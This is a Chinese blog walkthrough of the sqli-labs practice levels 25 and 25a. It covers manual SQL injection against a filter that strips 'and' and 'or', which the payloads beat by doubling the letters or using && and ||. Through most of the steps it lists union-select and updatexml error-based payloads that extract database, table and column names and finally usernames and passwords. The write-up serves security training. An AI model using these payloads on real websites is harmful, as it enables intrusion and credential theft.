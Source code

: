 # 原创
：  （手工）【sqli-labs25-25a】报错注入、OR&AND过滤后注入

# （手工）【sqli-labs25-25a】报错注入、OR&amp;AND过滤后注入

**目录**

[推荐：](#%C2%A0%E6%8E%A8%E8%8D%90%EF%BC%9A)

[一、（手工）SQL注入基本步骤：](#%E4%B8%80%E3%80%81%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%88%E6%89%8B%E5%B7%A5%EF%BC%89SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[二、Less25（GET-Error based - All your OR &amp; AND belong to us-string single quote）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[2.1、简介：（OR&amp;AND过滤-报错回显）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[2.2、第一步：注入点测试](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[ 2.3、第二步：分析过滤](#%C2%A02.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%88%86%E6%9E%90%E8%BF%87%E6%BB%A4)

[2.4、第三步：判断字段数](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E5%88%A4%E6%96%AD%E5%AD%97%E6%AE%B5%E6%95%B0)

[2.5、第四步：暴库](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9A%B4%E5%BA%93)

[2.6、第五步：爆表名](#%C2%A0%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E7%88%86%E8%A1%A8%E5%90%8D)

[2.7、第六步：爆字段](#%C2%A0%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[2.8、第七步：爆数据](#%C2%A0%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

[二、Less25a（GET-Blind based - All your OR &amp; AND belong to us-Intiger based ）](#%E4%BA%8C%E3%80%81Less25a%EF%BC%88GET-Blind%20based%20-%20All%20your%20OR%20%26%20AND%20belong%20to%20us-Intiger%20based%C2%A0%EF%BC%89)

[2.1、简介：（Cookie注入-双引号）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88Cookie%E6%B3%A8%E5%85%A5-%E5%8F%8C%E5%BC%95%E5%8F%B7%EF%BC%89)

[2.2、利用过程：](#2.2%E3%80%81%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B%EF%BC%9A)

---


> 
<h2>推荐：</h2>
[【SQL注入】数字型注入 &amp; 字符型注入<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125741101?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/125741101?spm=1001.2014.3001.5501)
[【WAF绕过】SQL注入、文件上传、XSS<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/124882861?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165759520116782390512182%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165759520116782390512182&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-124882861-null-null.185%5Ev2%5Econtrol&amp;utm_term=SQL%E7%BB%95%E8%BF%87&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/124882861?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165759520116782390512182%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165759520116782390512182&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-124882861-null-null.185%5Ev2%5Econtrol&amp;utm_term=SQL%E7%BB%95%E8%BF%87&amp;spm=1018.2226.3001.4450)


---


---


## 一、（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：分析权限
第三步：判断字段数
第四步：爆数据库名
第五步：爆表名
第六步：爆字段名
第七步：爆数据


---


---


## 二、Less25（GET-Error based - All your OR &amp; AND belong to us-string single quote）

> 
<h3>2.1、简介：（OR&amp;AND过滤-报错回显）</h3>
请求方法：GET
方法：过滤分析+报错回显


> 
<h3>2.2、第一步：注入点测试</h3>
输入?id=1

 后面加上单引号发现报错了
说明是单引号闭合
且可利用报错回显




> 
<h3> 2.3、第二步：分析过滤</h3>
?id=1'  and 1=1 --+
报错

输入?id=1'  --+
回显正常

 输入?id=1'  anandd 1=1--+
回显正常
说明and被过滤，且只过滤了一遍


<hr/>
同理：
?id=1' or 1=1 --+
?id=1' oorr 1=1 --+
可以发现or也被过滤了
<hr/>
and 可以使用 &amp;&amp; 替换
or 使用 || 替换
<hr/>
构造的语句中只要包含or或者and的都要双写
或者替换


---


> 
<h3>2.4、第三步：判断字段数</h3>
?id=1'  union select 1,2,3 --+



?id=1'  union select 1,2,3,4 --+
报错

 字段数为3



> 
<h3>2.5、第四步：暴库</h3>
?id=1'  union select 1,2,database() --+
被过滤了，那就多嵌套几层

 ?id=1'  union select 1,updatexml(1,concat(0x7e,(select database()),0x7e),1),3 --+<img alt="" height="815" src="https://img-blog.csdnimg.cn/627cf2fb8cfe45d7b455a3e8f2cee99f.png" width="1200"/>
 或者
?id=-1' union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'--+


> 
<h3>2.6、第五步：爆表名</h3>
?id=1' union select 1,updatexml(1,concat(0x7e,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()),0x7e),1),3--+

 或者
?id=-1' union select 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='users'--+


> 
<h3>2.7、第六步：爆字段</h3>
?id=1' union select 1,updatexml(1,concat(0x7e,(select group_concat(column_name) from infoorrmation_schema.columns where table_name='users'),0x7e),1),3--+




> 
<h3>2.8、第七步：爆数据</h3>
?id=-1' union select 1,2,group_concat(username,'~',passwoorrd) from security.users  --+




---


---


## 二、Less25a（GET-Blind based - All your OR &amp; AND belong to us-Intiger based ）

> 
<h3>2.1、简介：（Cookie注入-双引号）</h3>
请求方法：GET
方法：过滤分析+报错回显


> 
<h3>2.2、利用过程：</h3>
尝试单引号，不行
尝试双引号，也不行
说明是数字型注入（不需要考虑不和）
后面基本上和Less25一样了

